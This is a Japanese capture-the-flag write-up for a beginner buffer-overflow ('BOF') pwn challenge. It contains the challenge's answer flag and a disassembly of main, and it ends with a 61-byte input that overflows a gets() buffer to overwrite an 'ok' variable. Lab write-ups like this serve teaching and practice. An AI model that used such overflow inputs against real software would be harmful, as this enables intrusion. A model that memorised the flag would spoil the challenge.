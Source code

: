 ```yaml
---
title: BOF
level: 1
flag: FLAG{D0_y0U_kN0w_BuFf3r_0Ver_fL0w?_ThA2k_y0U_fOR_s01v1ng!!}
writer: manu1
badge: true
---
```


# BOF [pwn]

## 問題文

よーし、今日も魔王を倒しに行くか！

...あれ、ふっかつのじゅもんが違う...だと...？

```
nc bof.pwn.wanictf.org 9002
```

### ヒント

- title を調べてみましょう。

## 解法

buffer oveflow を題材にした問題です。gets()には取得する配列のサイズを指定できないという脆弱性があります。これを利用して、この問題では ok の値を書き換えると FLAG を入手することができます。

`objdump -d -M intel chall>chall.txt`で逆アセンブルして main を見てみると

```
000000000040127c <main>:
  40127c:	55                   	push   rbp
  40127d:	48 89 e5             	mov    rbp,rsp
  401280:	48 83 ec 40          	sub    rsp,0x40
  .
  .
  .
  4012e4:	e8 97 fd ff ff       	call   401080 <gets@plt>
  4012e9:	48 8d 45 c0          	lea    rax,[rbp-0x40]
  4012ed:	48 8d 35 cc 2d 00 00 	lea    rsi,[rip+0x2dcc]        # 4040c0 <flag>
  4012f4:	48 89 c7             	mov    rdi,rax
  4012f7:	e8 74 fd ff ff       	call   401070 <strcmp@plt>
  4012fc:	85 c0                	test   eax,eax
  4012fe:	75 07                	jne    401307 <main+0x8b>
  401300:	c7 45 fc 01 00 00 00 	mov    DWORD PTR [rbp-0x4],0x1
  401307:	83 7d fc 00          	cmp    DWORD PTR [rbp-0x4],0x0
  .
  .
  .
```

あたりから`rbp-0x40`に password、`rbp-0x04`に ok が入っているという見当が付くと思います。

ということで 0x40-0x04=0x3c(60 バイト)以上の文字列、例えば
`012345678901234567890123456789012345678901234567890123456789!`

などを password に打ち込むと 61 バイト目の値で ok の値が書き換わり、FLAG が表示されます。
